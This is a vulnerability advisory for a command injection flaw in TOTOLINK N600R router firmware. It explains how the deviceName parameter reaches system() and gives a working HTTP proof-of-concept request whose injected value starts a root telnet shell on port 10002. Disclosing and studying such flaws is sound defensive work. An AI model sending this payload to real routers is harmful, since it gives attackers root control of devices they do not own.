 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406184110258](img/image-20220406184110258.png)

The program passes the content obtained through the devicename parameter to V7, then passes the matching content to v18 through the sprintf function, and finally executes the content in v18 through the system function. There is a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 145
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647874864:2
Connection: close

{
	"topicurl":"setting/setDeviceName",
	"file_exist":"1",
	"num":"1",
	"deviceMac":"1",
	"deviceName":"';telnetd -l /bin/sh -p 10002;'“
}
```

The reproduction results are as follows:

![image-20220406184144793](img/image-20220406184144793.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
